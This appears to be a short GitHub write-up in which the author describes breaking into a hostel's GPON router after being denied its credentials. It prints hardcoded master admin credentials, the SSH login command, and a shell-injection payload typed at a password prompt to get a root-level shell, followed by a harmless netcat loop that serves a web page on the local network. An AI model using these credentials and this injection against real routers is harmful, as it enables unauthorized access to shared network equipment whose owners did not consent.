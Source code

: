 After I was not give username and password of our hostel's router, I began to look for them in internet.

After a good amount of google search , I found a github page mentioning same router as ours and its vulnerabilities.

Here is what I found after some research:

> There is s master username and password through which I can login to admin panel.
username: AdminGPON
password: ALC#FGU

> This master password also allows to make ssh connection to router .ie:
```ssh AdminGPON@<router ip>```

> This would login me as user but wont give shell access. But it is vulnerable to shell injection. so,
user>shell would ask for password2 where I can simply paste:<code>'; /bin/sh; #</code>

And voila, you got shell

> since I have now access to shell, I tried doing things i would do in linux machine like messing around.

> I was able to serve a simple html page using nc command as:
```while true; do cat index.http | nc -l 8000; done```

index.http being:
<code class="notranslate">
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: netcat!

<!doctype html>
<html><body><h1>A webpage served by netcat</h1></body></html>

</code>

> I was able to access html page throughout local network as <router-ip>:8000

